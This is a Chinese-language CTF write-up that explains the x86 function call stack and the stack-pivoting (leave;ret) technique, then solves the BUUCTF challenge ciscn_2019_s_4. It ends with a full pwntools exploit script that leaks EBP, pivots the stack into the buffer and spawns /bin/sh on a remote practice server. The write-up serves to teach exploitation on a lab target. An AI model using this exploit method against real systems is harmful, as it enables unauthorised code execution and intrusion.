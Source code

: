 # [PWN.0x00]函数调用栈结构与栈迁移


**前置知识：**[汇编语言（第4版）](https://book.douban.com/subject/35038473/)前半本

> 注：本文适用于32位程序，示意图中上为高地址区，下为低地址区。若方框中字体为蓝色表示此处内存的地址，为黑色表示此处内存存储的值。**示意图中leave均表示leave|ret**

#### 函数调用栈的基本结构

**一些寄存器的作用：**

EIP：存储着下一条指令的地址，每执行一条指令，该寄存器变化一次。

EBP：存储着当前函数栈底的地址，通过将其与偏移地址相加减获取变量的地址。

ESP：始终指向栈顶。

在进入一个函数时，会执行如下操作。

```assembly
push eip+4
push ebp
mov ebp,esp
```

在执行完退出时，会执行如下操作。

```assembly
mov esp,ebp
pop ebp

pop eip
```

即leave和ret。

整个过程描述起来就是，先将函数执行完成之后应当去执行的语句（eip+4）和主程序的的基址（ebp）压入栈中，然后再将ebp指向栈底。在函数执行完之后，再进行一遍上述过程的逆过程。

函数调用栈工作时的结构如下图：

其中val0地址处存储主程序传入的参数，如果有多个传入参数，它们将按照从右到左的顺序被push入栈中，val1~3为函数申请的局部变量。它们将按照申请的顺序被放入栈中。举例来讲，形如：

```c
void func(int a){
    int b,c;
    char s[10];
}
```

这样的函数，a将被存入val0，b将被存入val1，c将被存入val2，s将被存入val3。

考虑最基础的栈溢出题目，由于程序将按照地址从低到高的顺序存储字符串变量，所以当s的数据由选手掌控且溢出空间足够大时，s将溢出到val2，val3，甚至旧ebp，eip的位置上。所以选手就可以控制旧ebp，eip处的内容，实现劫持程序返回，让程序执行恶意代码的目的。

但有时候，选手能掌控的数据量很有限，不足以支持我们完成过于复杂的劫持指令，对于这种情况，其中一种解题方法就是栈迁移。



#### 栈迁移

栈迁移的核心思想是劫持当前函数已经压入栈中的eip段，将其内容改为一次leave，同时修改旧ebp段，借助旧ebp为跳板，实现对esp的控制，进而在下一次ret中，修改eip的值，实现目的。

也就是说，要构造栈中数据如图所示：

至于为什么要-4，后面模拟的过程中读者自能体会。

好了，现在当前函数已经执行完了，程序将自行执行一次leave和ret。执行之后的结果如图：



然后程序会执行eip指向的地址的命令，即再执行一次leave，ret，执行后栈的情况如图：



这样我们就完成了借助ebp为跳板，将esp指向目标eip的位置，控制程序在最后一次ret（即pop eip）的时候，将eip赋值成了我们想让它执行的函数的地址。



#### 例题：ciscn_2019_s_4

[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_s_4)

所谓“从零开始的Pwner生活”第一题，差点直接给我整劝退。

惯例checksec，只开了NX。

ida分析得到：

```c
int vul()
{
  char buf[40]; // [esp+0h] [ebp-28h] BYREF
  memset(buf, 0, 0x20u);
  read(0, buf, 0x30u);
  printf("Hello, %s\n", buf);
  read(0, buf, 0x30u);
  return printf("Hello, %s\n", buf);
}
```

发现只有8个字节的溢出空间，不足以支持一次完整的ROP，但是可以读两次，且第一次读入有输出，因此可以利用第一次读入来泄露ebp（注：这里的ebp指的是vul函数的ebp，即read函数栈帧中的旧ebp）。

第一次读满0x28个字节，由于printf输出的时候会一直输出到\x00为止，所以会把ebp也一起输出来。

在第二次输入的时候构造一个栈迁移的结构，将栈迁移到我们能控制的buf段。



结合文章开头函数调用栈的知识，不难理解，'bin/sh'和buf_addr+12都将作为输入的参数输入到system函数中，所以程序最终执行的效果就是获取了shell。

注意到我们需要填入的信息中需要我们预先知道buf的地址，可以在本地动态调试（gdb）中获取ebp和buf地址的差值，然后作差得到。**不要想当然地认为buf和ebp的差值就是0x28，这只是在read函数中的情况，此处的ebp指的是vul函数中的ebp，即read函数中ebp指向的oldebp。**

EXP：

```python
from psutil import process_iter
from pwn import *
context(arch="i386",log_level="debug")
op=0
e=ELF("ciscn-s-4.bin")
sys_addr=e.symbols['system']
leave_addr=0x080484B8
def main():
    if op==1:
        zeroy=process("ciscn-s-4.bin")
    else:
        zeroy=remote("node4.buuoj.cn",27827)
    payload1=b'a'*0x24+b"bbbb"
    zeroy.recvuntil("name?")
    zeroy.send(payload1)
    zeroy.recvuntil("bbbb")
    ebp_addr=u32(zeroy.recv(4))
    print("ebp_addr: ",hex(ebp_addr))
    buf_addr=ebp_addr-0x38
    payload2=p32(sys_addr)+b'aaaa'+p32(buf_addr+12)+b'/bin/sh\x00'
    payload2=payload2.ljust(0x28,b'a')+p32(buf_addr-4)+p32(leave_addr)
    zeroy.send(payload2)
    zeroy.interactive()
main()
```

